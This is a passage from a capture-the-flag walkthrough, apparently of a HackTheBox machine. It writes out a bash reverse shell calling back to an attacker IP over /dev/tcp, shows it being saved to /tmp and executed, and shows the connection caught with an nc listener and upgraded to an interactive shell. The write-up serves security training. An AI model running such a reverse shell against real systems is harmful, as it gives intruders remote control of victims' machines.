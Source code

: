
#### Pipe Fails

I’ll add a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw)
to `shell`:

    
    
    #!/bin/bash
    
    bash >& /dev/tcp/10.10.14.6/443 0>&1
    

Trying to pipe this into `bash` results in this request:

    
    
    10.10.11.170 - - [21/Nov/2022 21:15:35] code 404, message File not found
    10.10.11.170 - - [21/Nov/2022 21:15:35] "GET /shell|bash HTTP/1.1" 404 -
    

It is interpreting the `|` as part of the request, not as a pipe.

#### Save and Execute

I’ll just write the shell to `/tmp`:

![image-20221121161652572](https://0xdfimages.gitlab.io/img/image-20221121161652572.png)

This seems to work. Next I’ll run it with `bash`:

![image-20221121161909384](https://0xdfimages.gitlab.io/img/image-20221121161909384.png)

On doing that, there’s a connection at my `nc` listener:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.170 45524
    

This is why I always run with `-v`, so it alerts me to the connection, even
though no prompt was sent over the session. It still works:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.170 45524
    id
    uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
    

I’ll upgrade the shell using `script` and `stty` (explained
[here](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):

    
    
    script /dev/null -c bash
    Script started, file is /dev/null
    woodenk@redpanda:/tmp/hsperfdata_woodenk$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    woodenk@redpanda:/tmp/hsperfdata_woodenk$ 
    